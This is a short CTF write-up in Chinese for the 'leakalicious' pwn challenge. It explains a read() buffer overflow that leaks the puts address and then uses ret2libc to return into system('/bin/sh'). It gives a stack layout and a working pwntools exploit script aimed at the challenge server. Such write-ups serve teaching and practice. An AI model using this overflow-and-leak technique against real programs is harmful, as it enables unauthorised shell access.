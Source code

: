 ### leakalicious

> [附件](./leakalicious)

read函数存在溢出，puts函数在栈中的数据刚好在buf的下方，只要填充满32个byte输出的时候就能leak出puts的地址，计算偏移后覆盖返回地址拿到shell

```
-00000028
-00000028 buf             db 32 dup(?)
-00000008 puts_addr       dd ?
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008 argc            dd ?
+0000000C argv            dd ?                    ; offset
+00000010 envp            dd ?                    ; offset
+00000014
+00000014 ; end of stack variables
```

[Exploit script:](./leak.py)

```python
from pwn import *
context.log_level='debug'
p = remote('chal.tuctf.com',30505)
# p = process('leakalicious')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

p.recvuntil('> ')
# gdb.attach(p)
p.send('A'*32)
p.recvuntil('A'*32)
base=u32(p.recv(4))-libc.symbols['puts']
print hex(base)
sys = base + libc.symbols['system']
sh = base+libc.search('/bin/sh').next()
p.recvuntil('> ')
p.sendline('A'*44+p32(sys)+p32(0)+p32(sh))

# gdb.attach(p)
p.recvuntil('> ')
p.sendline('A'*44+p32(sys)+p32(0)+p32(sh))

p.interactive()
```

